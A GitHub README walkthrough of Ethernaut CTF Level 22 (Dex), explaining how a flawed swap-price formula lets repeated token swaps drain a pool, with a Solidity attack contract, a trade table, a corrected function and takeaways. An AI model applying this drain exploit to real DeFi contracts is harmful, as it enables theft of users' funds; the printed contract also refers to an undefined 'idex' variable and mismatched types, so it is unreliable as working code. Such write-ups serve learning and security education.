


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 22 - Dex</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 22 - Dex](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-22-dex)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals



## The hack

This CFAMM dex is a super simplified version of Uniswap V2. The price of an asset is derived from the following Constant Function (Hence the CF AMM): `x * y = k` where `x` is the liquidity of token1 and `y` is the liquidity of token2. So:

- The price of token1 in terms of token2 can be calculated like this: `y / x`.
- The price of token2 in terms of token1 can be calculated like this: `x / y`.

However, the `getSwapPrice()` function doesn't respect this `x * y = k` invariant because it does not adjust the balances post-swap to maintain the constant.

```javascript
function getSwapPrice(
        address from,
        address to,
        uint amount
    ) public view returns (uint) {
        return ((amount * IERC20(to).balanceOf(address(this))) /
            IERC20(from).balanceOf(address(this)));
    }
```

The correct method to calculate the output amount for CFAMM swaps (such as in Uniswap) involves considering the liquidity fee and the resultant pool sizes after the swap.

Let's start swapping some tokens around to see what happens.

On our first trade, everything was fine. We traded 10 token1 for 10 token2. But is it fine? According to the the CFAMM, we have:

- `100 token1 * 100 token2 = 10000 constant`

On the next trade, we will now have:

- `110 token1 * 90 token2 = 9460 constant`

This is clearly breaking the invariant CF rule, and it will only get worse after each trade! We will be able to use that to our advantage... and wallet. On top of that, floating point are not accounted for.

| Amount In | Reserves Token1 | Reserves Token2 | Amount Out | Qty token1 | Qty token2 |
| --------- | --------------- | --------------- | ---------- | ---------- | ---------- |
| 10        | 100             | 100             | 10         | 10         | 10         |
| 20        | 110             | 90              | 24         | 0          | 20         |
| 24        | 86              | 110             | 30         | 24         | 0          |
| 30        | 110             | 80              | 41         | 0          | 30         |
| 41        | 69              | 110             | 65         | 41         | 0          |
| 45        | 110             | 45              | 110        | 0          | 65         |
|           | 0               | 90              |            | 110        | 20         |

As shown in the table above, after a few trades, we will reach a point when we can calculate the exact amount of token2 to swap to entirely drain the reserves of token1.

Here is a corrected version of the getSwapPrice() function. However, understand that <b>this is simply for illustration only and shouldn't be used as such</b> as it does not account for fees nor floating-point arithmetic.

```javascript
function getSwapPrice(
    address from,
    address to,
    uint amount
) public view returns (uint) {
    uint x = IERC20(from).balanceOf(address(this));
    uint y = IERC20(to).balanceOf(address(this));
    uint yPrime = x * y / (x + amount);
    uint deltaY = y - yPrime;

    return deltaY;
}
```

## Solution

Let's implement the contract that will help us in this task:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IDex {
    function token1() external returns (address);
    function token2() external returns (address);
    function swap(address from, address to, uint256 amount) external;
    function approve(address spender, uint256 amount) external;
    function balanceOf(
        address token,
        address account
    ) external view returns (uint256);
}

contract Dexter {
    IDex private dex;
    IERC20 private immutable token1;
    IERC20 private immutable token2;

    constructor(address _dex) {
        dex = IDex(_dex);
        token1 = IERC20(idex.token1());
        token2 = IERC20(idex.token2());
    }

    function attack() public {
        token1.transferFrom(msg.sender, address(this), 10);
        token2.transferFrom(msg.sender, address(this), 10);

        idex.approve(address(idex), type(uint256).max);
        _swap(token1, token2); // 10 in | 100 - 100 | 10 out (10*100/100 = 10)
        _swap(token2, token1); // 20 in | 110 - 90  | 24 out (20*110/90 = 24)
        _swap(token1, token2); // 24 in | 86  - 110 | 30 out (24*110/86 = 30)
        _swap(token2, token1); // 30 in | 110  - 80 | 41 out (30*110/80 = 41)
        _swap(token1, token2); // 41 in | 69  - 110 | 65 out (41*110/67 = 65)

        idex.swap(token2, token1, 45);

        token1.transfer(msg.sender, idex.balanceOf(token1, address(this)));
        token2.transfer(msg.sender, idex.balanceOf(token2, address(this)));

        require(idex.balanceOf(token1, address(idex)) == 0, "Attack failed!");
    }

    function _swap(address tokenIn, address tokenOut) private {
        uint256 amount = idex.balanceOf(tokenIn, address(this));
        idex.swap(tokenIn, tokenOut, amount);
    }
}
```

The required steps are the following:

1. Deploy the Dexter contract;
2. Approve the Dex contract to use the Dexter tokens;
3. Send all token1 and token2 to the Dexter contract;
4. Swap token1 for token2 and vice versa until the reserves are drained;
5. Transfer the tokens back to your wallet (optional here).

You can run the script with the following command:

```bash
forge script script/22_Dex.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

> Note that for more complex calculations, we could have used a fuzzer to try random values for us and get to the same conclusion.

## Takeaway

- Always be careful when dealing with arithmetic and division in Solidity.
- Fuzzer like Foundry & Echidna are your best friends to easily test all (most of) calculations edge cases.
- Always use multiple sources of truth in your contracts (Chainlink and UniswapV3 TWAP are more reliable than UniswapV2).

## Reference

- UniswapV2Pair: https://github.com/Uniswap/v2-core/blob/ee547b17853e71ed4e0101ccfd52e70d5acded58/contracts/UniswapV2Pair.sol#L182

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
